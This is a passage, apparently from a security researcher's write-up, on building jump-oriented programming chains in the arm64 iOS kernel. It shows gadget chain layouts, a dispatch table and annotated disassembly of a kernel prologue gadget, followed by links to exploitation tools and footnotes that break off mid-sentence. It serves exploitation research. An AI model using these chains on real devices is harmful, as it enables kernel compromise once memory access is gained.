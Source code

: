 ```
		 a0: JOP_DISPATCH
		 d0: GADGET_STORE_RESULT_2
		390: JOP_DISPATCH
	}
	REGION_ARGUMENTS_2_TO_11 = {
		 0: ARGUMENT_2
		 8: ARGUMENT_3
		10: ARGUMENT_4
		18: ARGUMENT_5
		20: ARGUMENT_6
		28: ARGUMENT_7
		30: ARGUMENT_8
		38: ARGUMENT_9
		40: ARGUMENT_10
		48: ARGUMENT_11
	}
	REGION_2 = {
		0: REGION_3
	}
	REGION_3 = {
		158: GADGET_EPILOGUE_2
	}
	JOP_CHAIN_1 = [
		MOV_X23_X19__BR_X8
		GADGET_INITIALIZE_X20_1
		MOV_X25_X19__BR_X8
		GADGET_POPULATE_2
	]
	JOP_CHAIN_2 = [
		MOV_X19_X3__BR_X8
		MOV_X20_X6__BLR_X8
		MOV_X21_X4__BLR_X8
		MOV_X22_X12__BLR_X8
		MOV_X23_X5__BR_X8
		MOV_X24_X7__BLR_X8
		MOV_X8_X9__BR_X10
	]
	x0 = REGION_POPULATE_VALUES
	x1 = JOP_CHAIN_1
	pc = GADGET_PROLOGUE_2

GADGET_PROLOGUE_2 (0xfffffff0066012a0):
		;; Save registers x19-x28, save the frame (x29, x30), and make
		;; room for 0x40 bytes of local variables. sp must be
		;; preserved until the epilogue.
		sub sp, sp, #0xa0
		stp x28, x27, [sp, #0x40]
		stp x26, x25, [sp, #0x50]
		stp x24, x23, [sp, #0x60]
		stp x22, x21, [sp, #0x70]
		stp x20, x19, [sp, #0x80]
		stp x29, x30, [sp, #0x90]
		add x29, sp, #0x90
		mov x19, x0
		ldr x8, [x19]
		ldr x8, [x8, #0x390]
		blr x8
	SAVE_REGISTERS(x19, ..., x28)
	x29 = STACK_FRAME()
	RESERVE_STACK(0x40)
	x19 = REGION_POPULATE_VALUES
	x8 = REGION_POPULATE_VALUES[0] = REGION_1
	x8 = REGION_1[0x390] = JOP_DISPATCH
```

[call_strategy_1.c]: https://github.com/bazad/memctl/blob/2049ddea16ed13ea92aca8a2576b216da90d8763/src/libmemctl/arm64/jop/call_strategy_1.c
[call_strategy_3.c]: https://github.com/bazad/memctl/blob/2049ddea16ed13ea92aca8a2576b216da90d8763/src/libmemctl/arm64/jop/call_strategy_3.c
[call_strategy_5.c]: https://github.com/bazad/memctl/blob/2049ddea16ed13ea92aca8a2576b216da90d8763/src/libmemctl/arm64/jop/call_strategy_5.c
[iokit_user_client_trap]: https://conference.hitb.org/hitbsecconf2013kul/materials/D2T2%20-%20Stefan%20Esser%20-%20Tales%20from%20iOS%206%20Exploitation%20and%20iOS%207%20Security%20Changes.pdf
[Procedure Call Standard for the ARM 64-bit Architecture]: http://infocenter.arm.com/help/topic/com.arm.doc.ihi0055b/IHI0055B_aapcs64.pdf
[ARM64 Function Calling Conventions]: https://developer.apple.com/library/content/documentation/Xcode/Conceptual/iPhoneOSABIReference/Articles/ARM64FunctionCallingConventions.html
[jump-oriented programming]: https://repository.lib.ncsu.edu/bitstream/handle/1840.4/4135/TR-2010-8.pdf
[ipsw.me]: https://ipsw.me
[joker]: http://newosxbook.com/tools/joker.html
[memctl]: https://github.com/bazad/memctl
[ROPgadget]: https://github.com/JonathanSalwan/ROPgadget
[Capstone]: https://github.com/aquynh/capstone
[^1]: I've gotten in the habit of referring to jump-oriented programs as "JOP programs", despite
[^2]: Of course, if you have a kernel memory read/write primitive, as I'm assuming for this post,
[^3]: I'm not sure why Apple refers to its architecture as arm64 while ARM refers to the 64-bit
[^4]: My ROPgadget patch adds a few lines so that all segments and sections marked with the execute
[^5]: Here we are assuming that all the saved arguments in the structure are 64 bits, which means
[^6]: The first two gadgets might initially seem useful because they load register `x8`, the